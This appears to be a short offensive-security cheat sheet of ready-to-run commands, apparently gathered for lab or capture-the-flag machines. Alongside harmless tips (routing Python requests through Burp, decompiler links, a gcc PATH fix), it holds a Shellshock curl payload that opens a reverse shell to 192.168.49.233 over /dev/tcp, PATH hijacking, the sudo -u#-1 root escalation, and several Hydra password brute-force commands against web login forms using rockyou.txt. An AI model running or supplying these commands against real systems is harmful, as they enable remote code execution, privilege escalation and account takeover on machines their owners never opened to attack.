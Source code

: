 ## Python Requests and Burp Suite

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.get("https://www.google.com/", proxies=proxies, verify=False)

## Complied python binary file extractor

https://github.com/extremecoders-re/pyinstxtractor

To decomplie python compiled file

	https://github.com/zrax/pycdc

## gcc cc1 problem

find /usr/ -name "*cc1*"
 out:  /usr/share/terminfo/x/xterm+pcc1
 out:  /usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc1
 out: /usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc1plus
export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/


## CGI-BIN exploit

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.49.233/9001 0>&1'" http://192.168.233.87/cgi-bin/test


## Path hijacking

export PATH=/tmp:$PATH

## sudo (ALL, !root) /bin/bash

Exploits

sudo -u#-1 /bin/bash

## tcpdump

sudo tcpdump -i tun0 icmp

## Hydra

hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.251.51 http-get /inferno/ -t 64

hydra -l username -P /root/Desktop/Test.txt url.zz.za http-post-form "/portal/xlogin/:ed=^USER^&pw=^PASS^:S=302"

hydra -V -l ghost -P test.txt 10.10.78.81 -s 8080 http-post-form -m “/login.html?-1.-loginForm:urlfragment=&username=^USER^&password=^PASS^&Login= Login:’Login failed'”

hydra -l none -P rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
